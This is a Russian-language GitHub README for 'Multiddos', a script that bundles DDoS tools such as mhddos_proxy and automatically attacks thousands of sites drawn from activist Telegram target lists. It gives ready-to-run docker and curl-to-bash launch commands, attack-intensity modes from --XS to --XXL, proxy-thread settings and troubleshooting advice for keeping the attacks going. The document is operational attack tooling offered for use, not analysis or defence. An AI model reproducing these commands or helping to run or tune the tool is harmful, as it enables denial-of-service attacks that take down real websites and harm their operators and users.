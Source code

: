 # **Multiddos - скрипт объединяющий в себе несколько утилит для ddos**

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

### **Особености**:
* Объединяет в себе несколько утилит для ддоса, и для мониторинга (gotop, vnstat)
* Полностью автоматизирован. Автоматическое обновление программ, автоматическая настройка, автоматический запуск, автоматическая смена целей.
* Запуск одной простой командой.
* Наличие нескольких режимов работы (с помощью дополнительных ключей)
* При закрытии терминала или разрыве ssh сессии программы не вылетают, а продолжают работать в фоне. В любой момент multiddos можно снова вывести на экран.
* Работает с несколькими базами на тысячи сайтов/адресов.

### **На данный момент скрипт поддерживает:**
* [Multiddos](https://github.com/KarboDuck/multiddos), ранее известный как auto_mhddos (обвертка для mhddos_proxy) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* ~~[db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)~~ временно отключено

* Базу сайтов [IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
* Базу сайтов [DDOS по країні СЕПАРІВ (Кібер-Козаки)](https://t.me/ddos_separ)

### **Пояснение к выбору конкретных утилит**
<details>
<summary>развернуть</summary>
 
Мы хотели собрать утилиты, которые:
* Можно полностью автоматизировать
* Имеют хорошую эффективность и поддерживаются разработчиками
* Умеют работать через прокси

Полностью данным требованиям соответствует только mhddos_proxy. DB1000N не умеет работать через прокси. Поэтому на данном этапе по умолчанию используется только mhddos_proxy.
 
</details>

---
# **Multiddos в docker. Рекомендуется.** (Win, Mac, Linux)

### **Запуск**

1. Скачать и установить [Docker](https://docs.docker.com/get-docker/)

Или быстрые команды для установки:

* Windows 10/11: `winget install -e --id Docker.DockerDesktop`
* MacOS: `brew install docker docker-machine`
* LInux: `sudo apt install docker.io`

2. Запустить multiddos в docker:
```
docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd
```

* Запуск docker c ключами. <details> Docker версия поддерживает те же ключи, что и bash версия. Прописывайте их точно так же в конце команды. `docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd --lang en` Подробнее про ключи читайте ниже в разделе **Опции запуска**.

### **Остановка**
1. Нажать в окне несколько раз подряд `Ctrl + C`
2. В другом терминале запустить команду `docker stop multidd`
3. Перезагрузить операционную систему

### **Подключиться обратно, если скрипт работает в фоне**
```
docker attach multidd
```

---
# **Multiddos в bash** (Linux, WSL2)

### **Запуск**

```
curl -LO tiny.one/multiddos && bash multiddos
```

или прямая ссылка, на случай если сокращенная не работает

```
curl -O https://raw.githubusercontent.com/KarboDuck/multiddos/main/multiddos.sh && bash multiddos.sh
```

</details>

### **Остановка**:
1. Нажать в окне несколько раз подряд `Ctrl + C`
2. В другом терминале запустить команду `pkill tmux; pkill node; pkill -f start.py; pkill -f runner.py`
3. Перезагрузить операционную систему

### **Подключиться обратно, если скрипт работает в фоне**
```
tmux a
```
---

## **Опции запуска**

<details>
  <summary>развернуть</summary>
  
Multiddos запускается по умолчанию с gotop и multiddos. Это стандартная конфигурация. Из этой конфигурации можно убрать gotop. Или добавить в нее утилиты: db1000n, vnstat.

Для того, чтобы убрать утилиту используется ключ со знаком "-":

`-g` убрать gotop

Для того, чтобы добавить утилиту используется ключ со знаком "+":

`+d` добавить db1000n

`+v` добавить vnstat -l (мониторинг трафика)

`-p 2000` или `--proxy-threads 2000` Использование этого ключа подключает proxy_finder и задает количество потоков для поиска. Чем выше значение, тем быстрее происходит сканирование и поиск новых прокси, но тем и выше нагрузка на CPU и сеть. Поэтому при больших значениях может падать скорость атак. 

`-t 500` или `--threads 500` задать количество потоков для mhddos_proxy

**Режимы нагрузки в порядке возрастания:**

`--XS` Самый легкий режим работы. Низкая нагрузка на процессор и сеть. Рекомендуется, если компьютер сильно тормозит, а Интернет пропадет. Атакует 1000 целей 1 процессом в 1000 потоков.

`--S` Атакует 1000 целей 1 процессом в 2000 потоков.

`--M` Атакует все цели в базе 2 процессами по 2000 потоков каждый.

`--L` Атакует все цели в базе 2 процессами по 4000 потоков каждый. Используется по умолчанию.

`--XL` Атакует все цели в базе 4 процессами по 2500 потоков каждый.

`--XXL` Атакует все цели в базе 4 процессами по 5000 потоков каждый.

Пример команды (убрать gotop, запустить proxy finder с 2000 потоков и атаку в режиме --S):

```
curl -LO tiny.one/multiddos && bash multiddos -g -p 2000 --S
```

То же самое для docker:

```
docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd -g -p 2000 --S
```

</details>

---
## **Управление Tmux**
<details>
  <summary>развернуть</summary>

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет позже снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`

* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`

* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multidd`
</details>

---
## **Решение проблем и распространеные вопросы**
<details>
  <summary>развернуть</summary>

1.
Основная проблема - перебои в работе сетевого адаптера. Особенно часто проявляется при запуске скрипта на виртуальной машине. Ддос пакеты влияют не только на удаленные сервера, но и на ваше железо.

Внешние проявления могут быть самыми разнообразными, нелогичными и на первый взгляд не связанными с сетью. Но, если скрипт не запускается, просто перезапустите систему и попробуйте снова. Едва ли не в 80% случаев это решает проблемы.

Если проблема повторяется, попробуйте использовать режим --S. Если проблема все равно повторяется, значит на этой конкретной системе атаки запустить не получится.

2.
Вылетает db1000n. Это либо опять побочка проблем с сетью, смотрите пункт выше. Либо сбой самой программы, с чем мы ничего поделать не можем. Хорошая новость заключается в том, что 95% полезной работы выполняет mhddos_proxy. Пока он работает, все идет по плану. 
 
3.
Низкий трафик. В подавляющем большинстве случаев это значит, что атакуемые сайты уже лежат, либо их закрыли гео-блоком (отгородили от внешнего мира). Это нормально, наши атаки все равно приносят пользу, продолжаем работать.

Также может значить что вы используете слишком высокое кол-во потоков для атак, и ваш ПК не справляется с нагрузкой. Попробуйте запустить Multiddos в режиме --S.

4.
Пишет что сайт или несколько сайтов недоступны и не будут атакованы. Это нормально, значит эти конкретные сайты лежат или недоступны по другим причинам. Как правило это происходит с небольшим количеством сайтов, и атаки по 90% других сайтов продолжаются.

5.
Пишет что доступно 0 сайтов. Похоже на ошибку №4, но при нормальной работе такого быть не должно. Значит либо упала сеть, либо провайдер/vpn блокирует доступ ко всем этим сайтам.

Попробуйте перезагрузить ПК. Попробуйте использовать режим --S. Включите или если уже включен, наоборот выключите vpn.

6.
Нужен ли VPN? На данный момент не нужен. То есть при желании или необходимости его можно держать включенным, но это не обязательно, так как mhddos_proxy использует прокси.

</details>
